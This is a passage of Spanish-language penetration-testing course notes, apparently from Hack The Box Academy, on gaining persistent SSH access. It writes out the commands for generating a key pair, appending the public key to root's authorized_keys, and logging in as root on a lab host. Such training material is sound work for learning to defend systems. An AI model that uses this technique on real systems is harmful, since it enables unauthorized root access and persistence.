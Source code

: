 Si nos encontramos con acceso de escritura a un directorio de usuarios, podemos colocar nuestra clave pública en el directorio ssh del usuario en . Esta técnica se usa generalmente para obtener acceso a ssh después de obtener un shell como ese usuario. La configuración actual de SSH no aceptará claves escritas por otros usuarios, por lo que solo funcionará si ya hemos ganado el control sobre ese usuario. Primero debemos crear una nueva clave con y el flag para especificar el archivo de salida:`/.ssh/``/home/user/.ssh/authorized_keys``ssh-keygen``-f`

  Escalada de privilegios

```shell-session
zunderrubb@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

Esto nos dará dos archivos: (que usaremos con ) y , que copiaremos a la máquina remota. Copiemos, luego en la máquina remota, lo agregaremos a:`key``ssh -i``key.pub``key.pub``/root/.ssh/authorized_keys`

  Escalada de privilegios

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Ahora, el servidor remoto debería permitirnos iniciar sesión como ese usuario utilizando nuestra clave privada:

  Escalada de privilegios

```shell-session
zunderrubb@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```

Como podemos ver, ahora podemos ssh en el usuario . Los módulos [Escalada de privilegios de Linux](https://academy.hackthebox.com/module/details/51) y Escalada de [privilegios de Windows](https://academy.hackthebox.com/module/details/67) ofrecen más detalles sobre cómo usar cada uno de estos métodos para la escalada de privilegios y muchos otros.`root`


**[[escalada de privilegios]]**
**[[python hijacking]]**
